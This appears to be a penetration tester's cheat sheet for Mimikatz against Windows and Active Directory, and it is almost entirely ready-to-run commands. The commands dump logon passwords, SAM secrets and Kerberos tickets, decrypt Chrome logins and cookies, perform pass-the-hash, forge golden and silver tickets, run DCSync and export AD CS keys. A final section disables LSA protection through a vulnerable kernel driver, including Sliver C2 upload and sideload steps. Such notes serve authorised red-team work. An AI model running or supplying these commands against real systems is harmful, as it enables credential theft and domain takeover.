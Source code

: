 ```yaml
---
tags:
  - tool
  - windows
  - active_directory
---
```

# Mimikatz

Exploit Windows security - [Mimikatz](https://github.com/gentilkiwi/mimikatz)

## Methodology

```powershell
# Grab mimikatz.exe in kali
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

## Capabilities

```powershell
# All in one
.\mimikatz.exe privilege::debug sekurlsa::logonpasswords token::elevate lsadump::sam lsadump::secrets token::revert exit

# Allow command execution as another user (RUN BEFORE ALL OTHER COMMANDS)
privilege::debug

# Dump credentials for all users logged on to the current workstation or server, including remote logins
sekurlsa::logonpasswords

# Dump credentials for local accounts
token::elevate
lsadump::sam
lsadump::secrets
token::revert

# Extract kerberos encryption keys
sekurlsa::ekeys

# Extract kerberos tickets (first request is made in a normal shell to cache a service ticket)
# Used in Pass the Ticket and _ attacks
dir \\$FQDN\backup
sekrulsa::tickets /export

# Check exported tickets and inject one (first command made in normal shell)
dir *.kirbi
kerberos::ptt $TICKET.kirbi
# Check if injected ticket was loaded properly (made in normal shell)
klist

# Decrypt chrome data
sekurlsa::dpapi
dpapi::chrome /in:"C:\Users\$USER\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:$MASTERKEY
dpapi::chrome /in:"C:\Users\$USER\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:$MASTERKEY

# Perform a pass-the-hash attack
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NTHASH /run:powershell

# Create a silver ticket
kerberos::golden /sid:$SID /domain:$DOMAIN /ptt /target:$FQDN /service:http /user:$USER /rc4:$NTHASH 

# Create golden ticket (/patch is used to include the krbtgt hash in the output of lsadump::lsa)
lsadump::lsa /patch
# Purge all tickets before creating the golden ticket to avoid conflicting tickets
kerberos::purge
kerberos::golden /user:$USER /domain:$DOMAIN /sid:$SID /krbtgt:$KRBTGT_NTHASH /ptt
misc::cmd

# Use DCSync to grab a users credentials
lsadump::dcsync /user:$NETBIOS\Administrator
lsadump::dcsync /domain:$DOMAIN /user:$NETBIOS\administrator

# Export private AD CS keys
crypto::capi
crypto::cng
```

Reminder: We can grab our user SID at any point with the command `whoami /user`

## PPL

In the situation we receive the error:

```powershell
mimikatz(commandline) # sekurlsa::logonpasswords                                                                                                                                                                                           
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

This means LSA is currently protected by PPL. We can bypass this with the following technique:

PPLControl.exe - https://github.com/itm4n/PPLcontrol

RTCore64.sys - https://github.com/RedCursorSecurityConsulting/PPLKiller/blob/master/driver/RTCore64.sys

```powershell
# In powershell
sc.exe create RTCore64 type= kernel start= auto binPath= C:\Users\svc_sql\Documents\RTCore64.sys DisplayName= "control"
net start RTCore64
.\PPLcontrol.exe list
.\PPLcontrol.exe unprotect 656

# In sliver
upload /home/kali/staging/RTCore64.sys C:/ProgramData/System/RTCore64.sys
remote-sc-create "" RTCore64 "C:\ProgramData\System\RTCore64.sys" control "Kernel driver service for RTCore64" 1 2 2
remote-sc-start "" RTCore64
ps -e lsass
sideload /home/kali/staging/PPLcontrol.exe unprotect 644
mimikatz privilege::debug sekurlsa::logonpasswords exit
```
